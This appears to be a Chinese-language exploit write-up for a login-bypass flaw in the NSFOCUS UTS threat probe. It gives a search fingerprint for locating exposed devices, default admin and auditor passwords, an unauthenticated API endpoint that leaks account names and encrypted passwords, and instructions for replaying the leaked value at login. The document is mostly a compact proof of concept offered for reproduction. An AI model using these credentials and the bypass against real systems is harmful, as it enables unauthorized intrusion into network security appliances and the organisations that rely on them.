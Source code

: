 # 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

<a-checkbox checked>绿盟 UTS综合威胁探针 </a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="NSFOCUS-UTS综合威胁探针"</a-checkbox></br>

## 漏洞复现

默认口令

<a-checkbox checked>admin/Nsfocus@123</a-checkbox></br>

<a-checkbox checked>auditor/auditor</a-checkbox></br>

登陆页面

![img](../../../.vuepress/public/img/1628385388371-8c2d0646-c565-4233-b44e-02cb22b7eb37.png)

验证POC

```php
/webapi/v1/system/accountmanage/account
```

![img](../../../.vuepress/public/img/1628385427610-3bc1805a-ebb0-4c88-9390-3244af8fe381.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![img](../../../.vuepress/public/img/1628386133132-32cc96fd-6816-4c83-a753-78d6f30dfaf6.png)

![img](../../../.vuepress/public/img/1628386108554-9d4b5304-cb43-4a67-80b8-a00544149d48.png)